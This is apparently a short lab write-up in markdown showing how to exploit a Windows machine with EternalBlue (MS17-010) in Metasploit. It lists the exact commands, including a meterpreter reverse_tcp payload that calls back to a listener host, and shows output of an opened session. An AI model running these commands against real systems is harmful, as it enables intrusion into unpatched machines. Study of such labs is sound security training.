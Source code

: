 # Exploiting Vulnerabilities

Here we simulate exploiting a Windows machine with EternalBlue.

## Commands Used
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

## Output
```
[*] Exploit completed, sending stage...
[*] Meterpreter session 1 opened
```

![Exploit Demo](images/exploit-demo.png)

## Lessons Learned
- Requires correct target version and open SMB port.
- Demonstrates post-exploitation potential.
